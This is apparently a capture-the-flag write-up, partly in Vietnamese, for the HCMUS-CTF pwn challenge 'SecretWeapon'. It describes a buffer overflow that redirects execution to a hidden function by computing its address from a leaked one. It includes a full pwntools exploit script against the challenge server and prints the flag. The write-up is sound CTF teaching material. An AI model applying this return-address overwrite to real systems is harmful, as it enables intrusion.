 ## ⚡ [SecretWeapon](https://ctf.hcmus.edu.vn/challenges#SecretWeapon-16)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/57-pts-brightgreen.svg)](https://img.shields.io/badge/57-pts-brightgreen.svg)

Tác giả: `pakkunandy`

Tags: `pwn` `bof` `offset`

### Challenge Description
I will make you learn something about soccer. Follow my lead.

### Summary

Đây là challenge về buffer overflow để đến được với hàm cần gọi.

Chạy thử chương trình:

```bash
$ ./weapon
You wanna open the arsenal. Tell me the passphrase!
Your current location is townsquare with the address 0x43c2ff
...
```

Chương trình in ra địa chỉ của hàm `townsquare`, và gợi ý ta mở hàm `arsenal`.

Mỗi lần chạy thì địa chỉ trên cũng thay đổi, vậy ta phải xác định địa chỉ của `arsenal` dựa vào offset:

```bash 
$ objdump -t weapon | grep townsquare
000012ff g     F .text  0000005d              townsquare
$ objdump -t weapon | grep arsenal
000012d6 g     F .text  00000029              arsenal
```

`offset = 0x12ff - 0x12d6 = 0x29`

## Code

```python
#!/usr/bin/env python3

from pwn import *

offset = 0x29 # offset of two func

r = remote("61.28.237.24", 30201)
s = r.recvuntil('the address ')

dt = r.recvline()
townsquare_addr = int(dt[0:-2], base=16) # get townsquare_addr

arsenal_addr = townsquare_addr - offset # calc arsenal_addr

print(hex(townsquare_addr), hex(arsenal_addr))

payload = b'A'*28 + p32(arsenal_addr)

r.sendline(payload)

r.sendline(b'cat flag.txt;echo;exit')
r.interactive()

```

📫 Flag: **`HCMUS-CTF{you_know_how_to_compute_location}`**

---
*[Back to table of contents](../README.md)*
